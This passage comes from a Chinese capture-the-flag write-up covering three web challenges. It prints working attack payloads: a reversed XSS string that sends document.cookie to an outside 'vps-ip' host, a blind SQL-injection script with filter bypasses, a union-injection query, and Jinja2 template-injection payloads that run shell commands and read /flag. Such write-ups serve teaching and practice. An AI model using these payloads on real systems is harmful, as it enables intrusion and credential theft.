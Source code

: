 ```python
```
但传了几个都发现没效，偶然间发现传回来了token，搞不懂是哪个代码执行成功了，忘了，试了好多的代码
![](https://img-blog.csdnimg.cn/20210209220231319.png)
更改token得到flag
![](https://img-blog.csdnimg.cn/20210209213604497.png)
看wp发现`http ptth tpircs`都被过滤了，那么其实可以双写绕过：`ptptthth`或者直接用`//`代替`http://`，payload：`>")eikooc.tnemucod+'/pi-spv//'(nepo.wodniw"=rorreno 'x'=crs gmi<on`
### 200OK!!
**hint: status 字段会有什么坏心思呢?**
**hint: 这些字符串存在哪里呢？变量？还是...？**
题目给了两个提示，才突然明白应该是sql注入呀，存放在数据库中！！！
通过`1'#`来判断是否被过滤
![](https://img-blog.csdnimg.cn/20210211154458560.png)
测试发现过滤了空格，使用`/**/`，过滤select，from，where，使用大小写绕过
![](https://img-blog.csdnimg.cn/2021021115441022.png)
直接写脚本就可以了
```python
import requests

flag=''
url = "https://200ok.liki.link/server.php/"
for n in range(1,50):
    for i in range(32,127):
        payload="'/**/or/**/if(ascii(substr((seLEct/**/ffffff14gggggg/**/fRom/**/f1111111144444444444g),%d,1))=%d,0,3)#"  %(n,i)
        #print(payload)
        headers={
        'Status':'2'+payload
        }  
        r = requests.get(url,headers=headers)
        if '400' in r.text:
            flag = flag+chr(i)
            print(flag)
            break
    if '}' in flag:
        break
print(flag)
```
![](https://img-blog.csdnimg.cn/20210211170239801.png)看wp发现这题可以直接联合注入就出来的。。。。。
```sql
-1'/**/uniOn/**/seLect/**/ffffff14gggggg/**/fRom/**/f1111111144444444444g;#
```
![](https://img-blog.csdnimg.cn/20210304205349522.png)
## 第三周
### Forgetful
题目已经说了是**Python 写了一个 TodoList**，那么考虑ssti模板注入，首先随便注册一个账号，发送我们的测试代码
![](https://img-blog.csdnimg.cn/20210214134956272.png)点击查看发现变为了4，存在漏洞
![](https://img-blog.csdnimg.cn/20210214135025277.png)
直接发送payload：
```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat /flag|base64').read()") }}{% endif %}{% endfor %}
```